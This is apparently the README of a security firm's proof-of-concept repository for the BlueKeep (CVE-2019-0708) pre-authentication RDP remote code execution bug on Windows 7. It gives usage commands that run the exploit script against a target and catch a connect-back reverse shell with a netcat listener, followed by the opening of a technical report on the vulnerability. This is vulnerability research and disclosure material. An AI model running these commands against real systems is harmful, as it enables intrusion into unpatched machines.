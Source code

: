 # CVE-2019-0708 (BlueKeep) pre-auth RCE POC on Windows7
[![Ricerca Security, Inc.](./data/logo_color2.jpg)](https://ricsec.co.jp)

This repository demonstrates the remote code execution bug in Windows Remote Desktop Services (RDS).   

Here is a POC code and technical report about BlueKeep vulnerability, which we developed before.  
**NOTE:** Our goal is helping analysts to get better understanding about critical vulnerabilities.  
# How to use

### Prerequisites
Our exploit code is written in Python 3, and relies on [PyRDP](https://github.com/GoSecure/pyrdp) library. 
Please set up them following the installation guide of PyRDP.

### Usage
Currently our exploit targets, and is tested on, Windows 7 SP 1(6.1.7601) x64 on Virtual Box.

If your computer has the IP address 192.168.56.1 and you target the RDP server at example.com:1234, then type
```
$ python exploit.py example.com -rp 1234 192.168.56.1
```

If the script successfully exploits the server, a connect-back shellcode initiates a TCP connection from the server back to 192.168.56.1:4444.
Therefore, for example you should wait for the connection with netcat:
```
$ nc -v -l 4444
```

If you want to change the port number to which the server connect back, use the `-bp` option:
```
$ python exploit.py example.com -rp 1234 192.168.56.1 -bp 4567
```


# Report
## The Vulnerability
In the May 2019, Microsoft disclosed a critical Remote Code Execution vulnerability [CVE-2019-0708](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708), 
in Remote Desktop Services (formerly known as Terminal Services). This vulnerability is **pre-authentication** -- meaning the vulnerability is wormable, with the potential to cause widespread disruption. 
Attacker can exploit this vulnerability by sending crafted Remote Desktop Protocol (RDP) messages to the target server and get arbitrary code execution with administrative privileges.
## RDP Virtual Channel
Microsoft Remote Desktop Services provides a user with open interactive Windows sessions remotely. It presents the user's Windows desktop by communicating with the user client using Remote Desktop Protocol (RDP) over port 3389/TCP.  
  